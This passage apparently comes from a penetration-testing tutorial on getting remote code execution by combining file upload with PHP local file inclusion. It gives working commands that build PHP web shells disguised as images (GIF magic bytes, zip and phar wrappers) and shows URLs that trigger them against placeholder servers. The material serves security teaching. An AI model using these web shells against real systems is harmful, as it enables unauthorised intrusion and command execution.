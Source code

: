 Crafting Malicious Image:

```shell-session
 echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

>**Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. 

We upload the file and identify where this file was uploaded: `/profile_images/shell.gif`

And now we can trigger the remote code execution from the vulnerable endpoint within the app:

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

### ZIP upload

We can utilize the [zip](https://www.php.net/manual/en/wrappers.compression.php) wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work. To do so, we can start by creating a PHP web shell script and zipping it into a zip archive (named `shell.jpg`), as follows:

```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

We upload the file and identify where this file was uploaded: `/profile_images/shell.php`

And now we can trigger the remote code execution from the vulnerable endpoint within the app:

```
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload

We will first write the following PHP script into a `shell.php` file:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

We can compile it into a `phar` file and rename it to `shell.jpg` as follows:

```shell-session
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called shell.jpg. 

We upload the file and identify where this file was uploaded: `/profile_images/shell.jpg`
